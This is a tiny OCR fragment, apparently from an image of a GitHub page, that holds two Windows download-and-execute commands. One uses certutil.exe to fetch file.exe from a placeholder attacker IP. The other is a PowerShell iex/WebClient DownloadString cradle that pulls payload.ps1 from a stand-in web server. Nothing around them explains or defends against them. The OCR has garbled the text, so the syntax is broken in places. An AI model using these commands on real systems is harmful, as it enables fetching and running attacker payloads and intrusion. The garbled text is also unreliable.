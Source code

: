 certutil.exe -urlcache -f http://<yourmachineIP>/file.exe file.exe

iex
New Object Net.WebClient DownloadString (('https://webserver/payload. ps1')